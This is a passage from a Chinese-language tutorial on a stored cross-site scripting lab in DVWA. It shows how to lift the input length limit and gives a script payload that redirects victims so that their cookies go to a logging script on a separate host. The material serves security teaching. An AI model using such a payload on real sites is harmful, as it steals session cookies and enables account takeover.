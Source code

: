 安装成功之后会提示我们重启浏览器，重启便是，由此我们便做好了所有的准备工作。

然后我们再次进入 DVWA 为我们提供的 xss stored 环境中，上文我们提到过输入框对字数有所限制，但是对我们而言是不够的，我们需要修改一下，按 F12 打开调试工具，选择查看器，通过选择器选择我们的文本框，看到文本框相关的 HTML 代码，将 50 的限制修改到 200：

![config-html](../imgs/wm_384.png)

然后我们输入这样的信息：

```
<SCRIPT>document.location='http://192.168.122.101/cgi-bin/logit.pl?'+document.cookie</SCRIPT>
```

![insert-script](../imgs/wm_385.png)
